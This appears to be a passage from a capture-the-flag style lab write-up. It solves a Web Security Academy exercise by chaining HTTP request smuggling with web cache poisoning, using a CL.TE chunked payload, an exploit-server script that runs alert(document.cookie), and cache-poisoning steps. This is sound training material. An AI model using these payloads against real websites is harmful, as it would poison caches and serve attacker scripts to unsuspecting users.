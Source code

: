 Observe that you can use this request to make the next request to the website get redirected to **/post** on a host of your choice.

Payload:
```http

POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 129
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: anything
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```
<img width="1875" height="752" alt="image" src="https://github.com/user-attachments/assets/947d8c9e-ffd8-4b6f-9cd8-f8aa71eb686a" />

Go to your exploit server, and create a text/javascript file at **/post** with the contents:
**alert(document.cookie)**

<img width="1284" height="729" alt="image" src="https://github.com/user-attachments/assets/d72f3d1b-b37e-41b4-9884-8d96107bfc0d" />

Poison the server cache by first relaunching the previous attack using your exploit server's hostname as follows:


<img width="1916" height="821" alt="image" src="https://github.com/user-attachments/assets/ee5e1128-c044-47e0-9b2d-444ecd1407db" />

Then fetch `/resources/js/tracking.js` by sending the following request:this will get smuggled request from above request and give it to the below request which will generate  alert
Confirm that the cache has been poisoned by repeating the request to **tracking.js** several times and confirming that you receive the redirect every time.

If the attack has succeeded, the response to the request should be a redirect to your exploit server.

<img width="1920" height="668" alt="image" src="https://github.com/user-attachments/assets/93d27ee3-80aa-4ca7-9e3f-99af007cf147" />


When succesfully cache is poisoned reload the website and alert will be generated and lab is solved

<img width="1716" height="389" alt="image" src="https://github.com/user-attachments/assets/2b8b7dc6-c02d-43eb-9310-6c0c9aa94772" />


As we can see when alert is generated lab is solved

<img width="1663" height="336" alt="image" src="https://github.com/user-attachments/assets/7c96f45e-049c-450b-a9b2-a29eaa9442b8" />

---
